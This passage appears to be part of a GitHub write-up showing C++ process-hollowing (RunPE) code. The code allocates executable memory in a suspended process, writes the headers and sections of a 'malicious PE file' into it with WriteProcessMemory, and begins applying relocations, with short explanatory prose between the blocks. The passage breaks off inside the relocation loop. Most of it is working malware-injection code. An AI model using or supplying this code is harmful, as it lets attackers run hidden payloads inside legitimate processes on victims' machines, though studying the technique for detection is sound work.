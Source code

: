 ```cpp

	// Getting The DOS Header And The NT Header 
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)PEBytes;
	PIMAGE_NT_HEADERS ntHeaders = (PIMAGE_NT_HEADERS)((LPBYTE)PEBytes + dosHeader->e_lfanew);

	// Allocating Memory in Suspended Process
	PVOID allocatedMemory = VirtualAllocEx(procInfo.hProcess, baseAddress, ntHeaders->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

```
This code Writes the headers of the malicious PE file into the allocated memory in the target process. The headers include the image base, section headers, and other metadata. The program loops through all sections of the PE file and writes them into the corresponding addresses in the target process. Each section contains the actual code, data, and other information required for execution. The ".reloc" section is processed, and each relocation entry is updated by applying the necessary offset.
```cpp

	// Write The File's Headers To The Allocated Memory In The Suspended Process
	if (!WriteProcessMemory(procInfo.hProcess, baseAddress, PEBytes, ntHeaders->OptionalHeader.SizeOfHeaders, 0)) {
		printf("Failed to write Headers\n");
		return 0;
	}

	// Write All The Sections From The Mapped File To The Suspended Process
	PIMAGE_SECTION_HEADER sectionHeader;

	for (int i = 0; i < ntHeaders->FileHeader.NumberOfSections; i++)
	{
		// Get The Header Of The Current Section
		sectionHeader = (PIMAGE_SECTION_HEADER)((LPBYTE)PEBytes + dosHeader->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER)));
		printf("0x%p -- Writing Section: %s\n", (LPBYTE)allocatedMemory + sectionHeader->VirtualAddress, sectionHeader->Name);

		// Write The Section From The File Into The Allocated Memory
		if (!WriteProcessMemory(procInfo.hProcess, (PVOID)((LPBYTE)allocatedMemory + sectionHeader->VirtualAddress), (PVOID)((LPBYTE)PEBytes + sectionHeader->PointerToRawData), sectionHeader->SizeOfRawData, NULL)) {
			printf("Error Writing Section: %s. At: 0x%p\n", sectionHeader->Name, (LPBYTE)allocatedMemory + sectionHeader->VirtualAddress);
		}
	}

	// Check If There Is an Offset Between the Base Addresses
	if (baseOffset) {

		printf("\nRelocating The Relocation Table...\n");

		// Loop Over Every Section
		for (int i = 0; i < ntHeaders->FileHeader.NumberOfSections; i++)
		{
			// Get The Header Of The Current Section
			sectionHeader = (PIMAGE_SECTION_HEADER)((LPBYTE)PEBytes + dosHeader->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER)));

			// Compare The Section Name To The ".reloc" Section
			char relocSectionName[] = ".reloc";
			if (memcmp(sectionHeader->Name, relocSectionName, strlen(relocSectionName))) {
				// If The Section Is Not The ".reloc" Section Continue To The Next Section
				continue;
			}

```
